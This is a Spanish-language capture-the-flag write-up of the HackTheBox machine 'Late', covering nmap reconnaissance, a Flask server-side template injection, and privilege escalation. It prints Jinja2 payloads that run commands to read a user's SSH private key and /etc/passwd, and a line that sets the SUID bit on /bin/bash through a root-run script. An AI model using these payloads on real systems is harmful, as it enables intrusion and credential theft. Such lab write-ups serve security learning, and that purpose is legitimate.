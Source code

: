 ```yaml
---
layout: post
title: "Write Up Late."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Linux,Upload,SSTI,SSH,Hydra,Web,Injection,Flask,Python,Reconnaissance,File-System-Configuration,SSTI,pspy64,Security-Tools,eWPT,OSWE,OSCP]  
image:
  path: /assets/img/late/late.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.156 -oA allports
```


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -p22,80 -sV -sC 10.10.11.156 -oN target
```

![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Exploation


### HTTTP TCP-80


Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb con esto no conseguimos nada.


![list](/assets/img/late/Arch-2022-06-15-16-58-15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con `ctrl + u` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.


![list](/assets/img/late/Parrot-SO3-2022-08-01-15-21-31.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con `gobuster` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.


![list](/assets/img/late/Arch-2022-06-15-16-33-26.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En este dominio vemos que podemos subir archivos pero tambien algo interesante `with Flask` y muchas de las veces es vulnerable a `Server Side Template Injection`.


![list](/assets/img/late/Parrot-SO3-2022-08-01-15-56-30.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con libreOfice subimos una imagen con "\{\{4+4\}\}". 


![list](/assets/img/late/Parrot-SO3-2022-08-01-16-06-03.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Como la respuesta es `16` corrovoramos que si es vulnerable a SSTI. 


Sabiendo esto usaremos un payload de  [PayloadsAllTheThings] crearemos una imagen que nos permita ejecutar comandos tal para ver los `usuarios` y la `id_rsa`.


[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal


![list](/assets/img/late/Parrot-SO3-2022-08-01-16-48-23.png){:.lead width="800" height="100" loading="lazy"}


```default
\{\{ cycler.__init__.__globals__.os.popen('id; cat ~/.ssh/id_rsa').read() \}\}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta es la id_rsa. 


Tenemos su id_rsa, ahora consigamos elusuario para entonces conectarnos atraves de ssh.


![list](/assets/img/late/Parrot-SO3-2022-08-01-16-18-52.png){:.lead width="800" height="100" loading="lazy"}


```defaul
\{\{ cycler.__init__.__globals__.os.popen('id; cat /etc/passwd').read() \}\}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta son los usuarios.


```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```


{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


***

## Escalacion de privileguios


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, podemos ver con pspy que root ejecuta un archivo llamado `ssh-alert.sh` cada que iniciamos sesión por ssh.


```bash
echo "chmod u+s /bin/bash" >> ssh-alert.sh
```


{:.note}
Inyectamos1 permisos u+s al archivo ssh-alert.sh y nos salimos ppero nos volvemos a conectarpor ssh.


```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```


{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


![list](/assets/img/late/Parrot-SO3-2022-08-01-17-11-25.png){:.lead width="800" height="100" loading="lazy"}


Para este punto solo debemos hacer `bash -p` y buscar las flag del user y la de root que estanen los escritoriosde svc_acc y de /root respectivamente.


***
```bash
🎉 Felicitaciones ya has comprometido Late de HackTheBox 🎉
```
{:.centered}

***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***

Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}